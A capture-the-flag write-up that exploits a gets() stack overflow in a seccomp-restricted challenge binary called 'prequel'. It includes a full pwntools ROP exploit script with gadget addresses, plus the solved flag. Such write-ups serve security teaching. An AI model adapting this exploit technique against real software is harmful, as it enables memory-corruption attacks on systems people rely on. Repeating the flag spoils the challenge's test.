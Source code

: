 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages_debug.db` We will need to copy this to `messages.db` because the binary will read this file.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place, and there isn't a memory segment that is writeable and executable at the same time. We don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)
As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address. The stack canary protection written by the checksec is not true for the main method.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequel")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
Fortunately, our job is quite easy because there is a function that uses the string `SELECT flag FROM flag LIMIT ?;`. We can borrow this string's memory address for our own purposes and construct a rop chain to call the method `get_message` with this query. The function takes another parameter that determines the amount of the returned records. There is a string "101" called version at the memory address `0x5a1048`.

![](screenshots/print_debug_flag.png)

We only need a `pop rdi` gadget now to set the first parameter in a function call, but luckily there is a function called `mary_poppins` that contains this gadget at the following memory address `0x401ff2`. We can also find a `pop rsi` gadget to set the second parameter at `0x401ff4`. We can also use the tool `ROPgadget` if we can't find these gadgets by hand.

```python
from pwn import *

context.binary = elf = ELF("./prequel")

p = process()

offset = 72
POP_RDI = 0x401FF2
POP_RSI = 0x401FF4
FLAG_QUERY = 0x5A10F8 # address of the string "SELECT flag FROM flag LIMIT ?;"
VERSION_STRING = 0x5A1048 # address of the string "101"

payload = b"A" * 72 # padding
payload += p64(POP_RDI)
payload += p64(FLAG_QUERY)
payload += p64(POP_RSI)
payload += p64(VERSION_STRING)
payload += p64(elf.sym["get_message"]) # calling get_message(query, parameter) to execute get query in the sql database

p.sendline(payload)
p.recvuntil(b"Fetching your message...\n")
flag = p.recvuntil(b"}").replace(b"\n", b"").decode() # delete line breaks

log.success("Got flag: " + flag)
```

Running the exploit on the remote server yields the following flag: `HCSC24{wh3n_y0ur_str1ngs_4r3_thE_M0stpr3c1ous_g4dG3t5}`
